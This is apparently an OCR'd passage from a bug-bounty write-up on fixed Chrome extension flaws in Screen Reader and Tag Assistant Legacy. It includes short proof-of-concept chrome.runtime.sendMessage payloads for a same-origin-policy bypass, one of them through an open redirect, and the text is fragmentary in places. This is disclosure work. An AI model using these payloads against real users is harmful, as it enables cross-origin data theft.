 [^1-1]: <https://source.chromium.org/chromium/chromium/src/+/main:ui/accessibility/extensions/chromevoxclassic/>

[^2-1]: <https://source.chromium.org/chromium/chromium/src/+/main:ui/accessibility/extensions/chromevoxclassic/chromevox/injected/api_implementation.js;l=71;drc=a7bb5589468949d3c12d3e067621eb51252ee031>

[^3-1]: <https://source.chromium.org/chromium/chromium/src/+/main:ui/accessibility/extensions/chromevoxclassic/chromevox/injected/api_implementation.js;l=312;drc=a7bb5589468949d3c12d3e067621eb51252ee031>

[^4-1]: <https://source.chromium.org/chromium/chromium/src/+/main:ui/accessibility/extensions/chromevoxclassic/chromevox/injected/api_util.js;l=78;drc=3e1a26c44c024d97dc9a4c09bbc6a2365398ca2c>

[^5-1]: <https://source.chromium.org/chromium/chromium/src/+/main:ui/accessibility/extensions/chromevoxclassic/chromevox/injected/pdf_processor.js;l=138;drc=3e1a26c44c024d97dc9a4c09bbc6a2365398ca2c>

### Attack scenario

1. The attacker sends a link to a victim who uses the Screen Reader accessibility extension. [^0-1]
2. The victim opens the page and the attack takes place in the background.
3. The attacker can now access the victim's account.

This was fixed by removing the `clickNodeRef` method.

# SOP bypass using Tag Assistant Legacy (Fixed, Awarded $5000)

Downgraded as needs a compromised renderer, maybe CPU bugs work as well :/

**URL:** <https://chrome.google.com/webstore/detail/tag-assistant-legacy-by-g/kejbdjndbnbjgmefkgdddjlbokphdefk>

```js
chrome.runtime.sendMessage(
  { message: "LoadScript", url: "http://192.168.1.1" },
  console.log,
);
```

### An alternative way

The new security check has a list of allowed origins however there's open redirects!
However this only worked for the `application/javascript` content type.

```js
chrome.runtime.sendMessage(
  {
    message: "LoadScript",
    url: "https://googleads.g.doubleclick.net/pcs/click?adurl=http://localhost:8000/x.js",
  },
  console.log,
);
```

### Attack scenario

A compromised renderer can bypass the same origin policy.

# Leaking URLs using Tag Assistant Legacy extension (Fixed, Awarded $6267.4)

**URL:** <https://chrome.google.com/webstore/detail/tag-assistant-legacy-by-g/kejbdjndbnbjgmefkgdddjlbokphdefk>

Change the JS execution context to the Tag Assistant Legacy's content script, and execute the following:


[^0-0]: <https://chrome.google.com/webstore/detail/perfetto-ui/lfmkphfpdbjijhpomgecfikhfohaoine>
[^1-0]: <https://source.chromium.org/chromium/chromium/src/+/main:chrome/browser/extensions/api/debugger/debugger_api.cc;drc=3ecbe8e3eacb4ac62561e9e786e40e7e60eefd44;l=154>
[^0-1]: <https://chrome.google.com/webstore/detail/screen-reader/kgejglhpjiefppelpmljglcjbhoiplfn>
[^0-2]: <https://chrome.google.com/webstore/detail/form-troubleshooter/lpjhcgjbicfdoijennopbjooigfipfjh>
[^1-2]: <https://github.com/GoogleChromeLabs/form-troubleshooter>
[^0-3]: <https://chrome.google.com/webstore/detail/secure-shell/iodihamcpbpeioajjeobimgagajmlibd>
[^1-3]: <https://chrome.google.com/webstore/detail/deprecated-secure-shell-a/pnhechapfaindjhompbnflcldabbghjo>